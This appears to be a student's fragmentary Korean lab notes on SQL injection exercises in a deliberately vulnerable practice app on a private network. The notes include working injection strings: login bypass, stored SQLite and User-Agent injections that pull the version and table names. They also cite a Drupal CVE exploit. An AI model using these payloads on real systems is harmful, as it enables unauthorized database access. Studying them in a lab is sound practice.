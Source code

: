 	HY000 : mysql이 연결되지 않아 생기는 오류
' or 1=1 -- 
http://192.168.56.143/sqlite
## SQL Injection(Drupal)
### security : low
CVE-2014-3704를 이용해 취약점 공격
## SQL Injection - Stored(SQLite)
### security : low
'
	entry 추가 성공
' ,(select sqlite_version())) -- 
	3.4.2 버전 출력
	insert into 에 포함됨
' ,(select tbl_name from sqlite_master))--
	blog라는 테이블 출력됨
## SQL Injection - Stored(User-Agent)
### security : low
burp suite
intercept on
	User-Agent: '
		Syntax error
	User-Agent: 'test
		near 'test', '192.168.56.102' Syntax error
	User-Agent: test'(select @@version))#
## SQL Injection - Stored(XML)
### security : low
## XML/XPath Injection(Login Form)
### security : low
XPath
`//*[@id="dimg_NnrzZ5LyI9741e8PqKLdoAk_9"]
Full XPath(/html부터 시작)
`/html/body/div[3]/div/div[12]/div[2]/div/div[5]/div[2]/div/div[2]/div/div[2]/div/div[1]/div/div/div/div[1]/div/div/div/div/div/div/div/div[1]/div[1]/div/div[1]/div/div/div/div/div[1]/div[1]/div/div/div/div/div/div/div[1]/img
